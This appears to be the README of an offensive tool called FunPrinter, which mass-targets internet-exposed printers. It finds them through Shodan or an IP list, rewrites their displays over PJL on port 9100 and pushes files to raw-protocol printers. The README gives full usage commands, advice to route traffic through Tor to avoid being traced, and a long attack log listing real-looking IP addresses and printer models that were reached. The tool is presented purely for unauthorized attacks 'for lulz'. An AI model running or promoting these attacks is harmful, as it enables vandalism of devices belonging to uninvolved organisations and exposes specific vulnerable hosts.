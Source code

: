 # FunPrinter
```    
    ________________
  _/_______________/|
 /___________/___//||   -- FunPrinter By FunSec --
|===        |----| ||
|           |   ô| ||
|___________|   ô| ||
| ||/.´---.||    | ||
|-||/_____\||-.  | |´
|_||=L==H==||_|__|/
```
### What is FunPrinter?
FunPrinter is a tool for perpetrating massive attacks on printers written by FunSec just for lulz.  
The tool has two modes: 
```
--mode shodan
--mode list 
```  
#### Shodan
The shodan mode searches for devices on the internet of things thanks to shodan api. To use this mode you will need yout own API key of shodan.
#### List
List mode reads a specific list and loads them into the program.  
Example list:  
```
140.223.12.34
80.211.32.12
90.23.442.12
5.123.422.12
```
### Message
```
--message <message_here>
```
This argument will specify the message that will be displayed on the printer's screen in case the printer uses PJL through port 9100.  
Example:
```
--message Hacked
```
##### Result (Old picture)
![Example](https://hacking-printers.net/wiki/images/thumb/1/16/PJL-display.png/800px-PJL-display.png)

#### TOR (Optional)
You can use tor to hide your identity (Recommended) so that no angry businessman tries to find you. To do this add --tor in the command of the script.
```python
socks.set_default_proxy(socks.SOCKS5, '127.0.0.1', 9050)
```
This line of code set the tor proxy in the script. Change the port if you need.

### How to use Usage
The first step is to have a file that you want to print on printers that have RAW protocol enabled.  
Example:
```
funsec@funsec # cat test.txt  
I hack you LMAO
```
If you use this file without going through A4.py it will not print correctly in the printer. The "test.txt" file needs to be a complete page.    

Then you need to execute this command:
```
kek@kek-PC # python A4.py test.txt
By FunSec with love ;)
```
After this simple step ... Happy hacking!.

Example:
```
kek@kek-PC # python funny.py --mode shodan/list --arg ip_list/shodan_api_key --message message (--tor) myfile
    ________________
  _/_______________/|
 /___________/___//||   -- FunPrinter By FunSec --
|===        |----| ||
|           |   ô| ||
|___________|   ô| ||
| ||/.´---.||    | ||
|-||/_____\||-.  | |´
|_||=L==H==||_|__|/

[TOR] Verifying the connection to the proxy
[TOR] Actual IP: 77.247.181.162
[LIST] Reading list
[LIST] Done!. 199 ips loaded
[49.79.232.76] Connecting...
[49.79.232.76] Connection failed
[125.75.32.191] Connecting...
[125.75.32.191] Connection failed
[124.167.222.86] Connecting...
[124.167.222.86] Connection failed
[162.249.88.74] Connecting...
[162.249.88.74] Connected!
[162.249.88.74] Testing JPL
[162.249.88.74] Test completed!
[162.249.88.74] RICOH MP C4503
[162.249.88.74] Changing the display screen to Succ!
[162.249.88.74] Done!. Closing the connection
[213.248.30.125] Connecting...
[213.248.30.125] Connected!
[213.248.30.125] Testing JPL
[213.248.30.125] Protocol not supported. Closing the connection
[77.236.139.27] Connecting...
[77.236.139.27] Connected!
[77.236.139.27] Testing JPL
[77.236.139.27] Protocol not supported. Closing the connection
[95.173.193.20] Connecting...
[95.173.193.20] Connected!
[95.173.193.20] Testing JPL
[95.173.193.20] RAW protocol detected. Sending file
[95.173.193.20] Done!. Closing the connection
[218.75.141.13] Connecting...
[218.75.141.13] Connection failed
[173.247.166.122] Connecting...
[173.247.166.122] Connected!
[173.247.166.122] Testing JPL
[173.247.166.122] RAW protocol detected. Sending file
[173.247.166.122] Done!. Closing the connection
[112.171.47.235] Connecting...
[112.171.47.235] Connected!
[112.171.47.235] Testing JPL
[112.171.47.235] Protocol not supported. Closing the connection
[45.60.169.188] Connecting...
[45.60.169.188] Connected!
[45.60.169.188] Testing JPL
[45.60.169.188] Protocol not supported. Closing the connection
[107.154.163.139] Connecting...
[107.154.163.139] Connected!
[107.154.163.139] Testing JPL
[107.154.163.139] Protocol not supported. Closing the connection
[107.154.157.226] Connecting...
[107.154.157.226] Connected!
[107.154.157.226] Testing JPL
[107.154.157.226] Protocol not supported. Closing the connection
[107.154.206.184] Connecting...
[107.154.206.184] Connected!
[107.154.206.184] Testing JPL
[107.154.206.184] Protocol not supported. Closing the connection
[107.154.60.223] Connecting...
[107.154.60.223] Connected!
[107.154.60.223] Testing JPL
[107.154.60.223] Protocol not supported. Closing the connection
[203.130.62.58] Connecting...
[203.130.62.58] Connected!
[203.130.62.58] Testing JPL
[203.130.62.58] Protocol not supported. Closing the connection
[45.60.81.249] Connecting...
[45.60.81.249] Connected!
[45.60.81.249] Testing JPL
[45.60.81.249] Protocol not supported. Closing the connection
[177.0.87.163] Connecting...
[177.0.87.163] Connected!
[177.0.87.163] Testing JPL
[177.0.87.163] Test completed!
[177.0.87.163] Samsung M337x 387x 407x Series
[177.0.87.163] Changing the display screen to Succ!
[177.0.87.163] Done!. Closing the connection
[31.14.252.54] Connecting...
[31.14.252.54] Connected!
[31.14.252.54] Testing JPL
[31.14.252.54] RAW protocol detected. Sending file
[31.14.252.54] Done!. Closing the connection
[107.154.103.88] Connecting...
[107.154.103.88] Connected!
[107.154.103.88] Testing JPL
[107.154.103.88] Protocol not supported. Closing the connection
```
### Requeriments
```
python2.7 (Best version of python LMAO)
pip for python2.7
```
After having these two essential requirements, it is necessary to install the following modules with "pip install module" although this step can be done semiautomatically.  
#### Manual
Modules to install:
  ```
  PySocks, colorama, argparse, shodan
  ```
WARNING: Install all modules individually  
Example:  
Linux
```
pip install PySocks
```
Windows
```
C:\Python27\Scripts\pip.exe install PySocks
```
#### Semiautomatic
Run this command in yout shell m8  
Linux
```
pip install -r requeriments.txt
```
Windows
```
C:\Python27\Scripts\pip.exe install -r requeriments.txt
